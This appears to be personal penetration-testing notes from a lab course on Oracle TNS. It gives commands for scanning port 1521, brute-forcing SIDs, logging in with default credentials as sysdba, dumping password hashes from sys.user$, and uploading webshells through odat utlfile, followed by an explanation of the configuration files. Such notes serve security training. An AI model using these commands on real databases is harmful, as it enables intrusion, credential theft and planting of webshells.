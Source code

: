 ##### Scanning
```bash
nmap -p1521 -sV -sC --open $ip

odat all -s $ip
```
##### SID Bruteforcing
```bash
nmap -p1521 -sV --open --script oracle-sid-brute $ip
```

##### SQLplus - Login
```bash
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH

sqlplus user/pass@$ip/<database>
sqlplus scott/tiger@10.129.204.235/XE
```
> [!NOTE] Note
> This can be ran  if the  comes **sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory** error across:  `sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`
##### SQLplus - Login as other user
```bash
sqlplus scott/pass@10.129.204.235/XE as sysdba
```
##### Eunumeration - SQLplus
```sql
select table_name from all_tables;
select * from user_role_privs;
```
##### Extract Password Hashes
```sql
select name, password from sys.user$;
```
##### Upload webshell
```bash
odat utlfile -s 10.129.204.235 -d DB -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot shell.aspx ./shell.aspx

odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile /var/www/html shell.php ./shell.php
```

##### Download SQLplus dependencies 
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
```
The `Oracle Transparent Network Substrate` (`TNS`) server is a communication protocol that facilitates communication between Oracle databases and applications over networks. Initially introduced as part of the [Oracle Net Services](https://docs.oracle.com/en/database/oracle/oracle-database/18/netag/introducing-oracle-net-services.html) software suite, TNS supports various networking protocols between Oracle databases and client applications, such as `IPX/SPX` and `TCP/IP` protocol stacks. As a result, it has become a preferred solution for managing large, complex databases in the healthcare, finance, and retail industries. In addition, its built-in encryption mechanism ensures the security of data transmitted, making it an ideal solution for enterprise environments where data security is paramount.

Over time, TNS has been updated to support newer technologies, including `IPv6` and `SSL/TLS` encryption which makes it more suitable for the following purposes:

| Name resolution | Connection management | Load balancing | Security |
| --------------- | --------------------- | -------------- | -------- |
### Default Configuration
Default configuration depends on the Oracle TNS version.  By default, the listener listens for incoming connections on the `TCP/1521` port. However, this default port can be changed during installation or later in the configuration file.

The listener can also support multiple network interfaces and listen on specific IP addresses or all available network interfaces. By default, Oracle TNS can be remotely managed in `Oracle 8i`/`9i` but not in Oracle 10g/11g

The default configuration of the TNS listener also includes a few basic security features. For example, the listener will only accept connections from authorized hosts and perform encrypted communication, basic authentication using a combination of hostnames, IP addresses, and usernames and passwords

The configuration files for Oracle TNS are called `tnsnames.ora` and `listener.ora` and are typically located in the `$ORACLE_HOME/network/admin` directory.

Oracle 9 has a default password, `CHANGE_ON_INSTALL`, whereas Oracle 10 has no default password set. The Oracle DBSNMP service also uses a default password, `dbsnmp` that we should remember when we come across this one

Each database or service has a unique entry in the [tnsnames.ora](https://docs.oracle.com/cd/E11882_01/network.112/e10835/tnsnames.htm#NETRF007) file, containing the necessary information for clients to connect to the service.
```json
ORCL =
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521))
    )
    (CONNECT_DATA =
      (SERVER = DEDICATED)
      (SERVICE_NAME = orcl)
    )
  )
```

On the other hand, the `listener.ora` file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance.
```json
SID_LIST_LISTENER =
  (SID_LIST =
    (SID_DESC =
      (SID_NAME = PDB1)
      (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
      (GLOBAL_DBNAME = PDB1)
      (SID_DIRECTORY_LIST =
        (SID_DIRECTORY =
          (DIRECTORY_TYPE = TNS_ADMIN)
          (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
        )
      )
    )
  )

LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
      (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
    )
  )

ADR_BASE_LISTENER = C:\oracle
```

Oracle databases can be protected by using so-called PL/SQL Exclusion List (`PlsqlExclusionList`). It is a user-created text file that needs to be placed in the `$ORACLE_HOME/sqldeveloper` directory, and it contains the names of PL/SQL packages or types that should be excluded from execution. Once the PL/SQL Exclusion List file is created, it can be loaded into the database instance. It serves as a blacklist that cannot be accessed through the Oracle Application Server.

|**Setting**|**Description**|
|---|---|
|`DESCRIPTION`|A descriptor that provides a name for the database and its connection type.|
|`ADDRESS`|The network address of the database, which includes the hostname and port number.|
|`PROTOCOL`|The network protocol used for communication with the server|
|`PORT`|The port number used for communication with the server|
|`CONNECT_DATA`|Specifies the attributes of the connection, such as the service name or SID, protocol, and database instance identifier.|
|`INSTANCE_NAME`|The name of the database instance the client wants to connect.|
|`SERVICE_NAME`|The name of the service that the client wants to connect to.|
|`SERVER`|The type of server used for the database connection, such as dedicated or shared.|
|`USER`|The username used to authenticate with the database server.|
|`PASSWORD`|The password used to authenticate with the database server.|
|`SECURITY`|The type of security for the connection.|
|`VALIDATE_CERT`|Whether to validate the certificate using SSL/TLS.|
|`SSL_VERSION`|The version of SSL/TLS to use for the connection.|
|`CONNECT_TIMEOUT`|The time limit in seconds for the client to establish a connection to the database.|
|`RECEIVE_TIMEOUT`|The time limit in seconds for the client to receive a response from the database.|
|`SEND_TIMEOUT`|The time limit in seconds for the client to send a request to the database.|
|`SQLNET.EXPIRE_TIME`|The time limit in seconds for the client to detect a connection has failed.|
|`TRACE_LEVEL`|The level of tracing for the database connection.|
|`TRACE_DIRECTORY`|The directory where the trace files are stored.|
|`TRACE_FILE_NAME`|The name of the trace file.|
|`LOG_FILE`|The file where the log information is stored.|
